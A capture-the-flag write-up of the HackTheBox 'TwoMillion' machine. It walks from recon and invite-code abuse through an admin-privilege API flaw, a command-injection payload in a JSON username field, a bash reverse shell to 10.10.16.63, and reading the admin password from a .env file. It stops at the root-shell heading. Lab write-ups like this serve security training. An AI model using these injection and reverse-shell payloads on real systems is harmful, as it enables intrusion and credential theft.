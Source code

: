 # recon
- First i use **nmap -p- --min-rate=10000** 10.10.11.221 to check for open ports
- we got 2 ports open 22 and 80 we run nmap -sC -sV -p22,80 10.10.11.221
- after nmap we found port 80 has cookie  PHPSESSID: httponly flag not set
- we go check the site an no response only redirct to 2million.htb so we modify etc/hosts file with the ip to the site
- its a hackthebox site we run feroxbuster with command **feroxbuster -u http://2million.htb**
- we go check the login page i tryed admin@hackthebox.eu and password is password and we got usernotfound after several trys we also get user not found
- i try reflected xss from the url and its not working
- ![xss](https://github.com/Islamkafafy123/HackTheBox/blob/main/pictures/xss.jpg)
- we try the join page and it has an invite code page we solve it like the real hackthebox challange
- refresh and look in the network tap in the devolper tools we find its send request to inviteapi.min.js and thats intersting out of all the files displayed
- we go to depuuger to get the file and coppy it and beutify it
- after buetigying the code we see two function (makeinvitecode,verifyinvitecode)
- we put makeinvitecode in the console and we see date printed with encryption type ROT13
![makeinvitecode](https://github.com/Islamkafafy123/HackTheBox/blob/main/pictures/invitecode.jpg)
- we copy the data and go to cyperchef after decoding it says **In order to generate the invite code, make a POST request to /api/v1/invite/generate**
- we make post request using curl to the path **curl -X POST http://2million.htb/api/v1/invite/generate**
- we got code in base 64 after decoding **echo  V1pZRjgtRk9ETDktSDZSS1YtRTZQMVk= | base64 -d** we got it and use it to signup with email
- i try login with valid email and wrong passwor we still got usernotfound so we cant enumrate valid emails/username
- all links give server error except challnges and access page
- in access page there are 2 links (regenrate,coonectionpack)
- fireup burpsuite and send the 2 request to repeater and the 2 request gave the same response (VPN creds)
- i try playing with the directry /api/v1/user/vpn/generate from vpn adn all gave 404 or 301 except at /api/v1 it gave description of the api
# now we enumurate the api and exploit
- go to curl and  play with the routes (bruteforce))
- intersting api route /api/v1/admin/settings/update we could change user to admin
- so we go to the path /api/v1/admin/settings/update and we got 200 with messege invalid content type
- look at request and see no content type so we add one with json value **content-type : application/json** we send the request and its says missing parameter email
- we add the email parameter with our value in a json format and also is admin set to 1 and we got admin (idor vuln) we check we are admin with api route and yes we are admin
- It’s worth checking if there is any command injection.
- If the server is doing something like gen_vpn.sh [username], then I’ll try putting a ; in the username to break that into a new command. I’ll also add a # at the end to comment out anything that might come after my input. It works:
- we go to generate vpn with admin and yes it has command inj **{"username":"kafafy ; id #"}** using this payload we got the id command
- we try to get shell on the machine using bash reverse shell  **{"username":"kafafy ; bash -c 'bash -i >& /dev/tcp/10.10.16.63/1234 0>&1' #"}**
- we stablize the shell using --> **python3 -c 'import pty:pty.spawn("/bin/bash")'** --> **stty raw -echo;fg** --> **export TERM=xterm**
- .env is a file is commonly used in PHP applications to store environment variable values
- we cat the file and we got admin password we su to admin and we go the home directory to get the user.txt
# now ROOT SHELL
